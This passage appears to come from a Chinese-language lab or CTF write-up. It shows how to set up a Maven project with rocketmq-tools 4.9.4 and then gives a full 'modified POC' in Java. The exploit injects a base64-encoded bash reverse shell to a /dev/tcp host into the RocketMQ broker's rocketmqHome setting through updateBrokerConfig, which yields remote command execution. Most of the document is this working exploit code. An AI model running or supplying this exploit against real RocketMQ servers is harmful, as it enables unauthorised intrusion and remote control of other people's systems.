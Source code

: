 使用IDEA创建maven项目，创建xml文件下载依赖,下载地址

> https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools/4.9.4

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185554.png)

    
    
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->  
    <dependency>  
        <groupId>org.apache.rocketmq</groupId>  
        <artifactId>rocketmq-tools</artifactId>  
        <version>4.9.4</version>  
    </dependency>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185555.png)

修改POC

    
    
    import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;  
      
    import java.util.Base64;  
    import java.util.Properties;  
      
    public class poc {  
        private static String getCmd(String ip, String port) {  
            String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";  
            String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());  
            return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";  
        }  
      
        public static void main(String[] args) throws Exception {  
            String targetHost = "10.10.14.72";  
            String targetPort = "10911";  
          
            String shellHost = "10.10.14.72";  
            String shellPort = "65532";  
          
            String targetAddr = String.format("%s:%s",targetHost,targetPort);  
            Properties props = new Properties();  
            props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));  
            props.setProperty("filterServerNums", "1");  
            // 创建 DefaultMQAdminExt 对象并启动  
            DefaultMQAdminExt admin = new DefaultMQAdminExt();  
      
    //        admin.setNamesrvAddr("0.0.0.0:12345");  
            admin.start();  
            // 更新配置⽂件  
            admin.updateBrokerConfig(targetAddr, props);  
            Properties brokerConfig = admin.getBrokerConfig(targetAddr);  
            System.out.println(brokerConfig.getProperty("rocketmqHome"));  
            System.out.println(brokerConfig.getProperty("filterServerNums"));  
            // 关闭 DefaultMQAdminExt 对象  
            admin.shutdown();  
        }  
    }
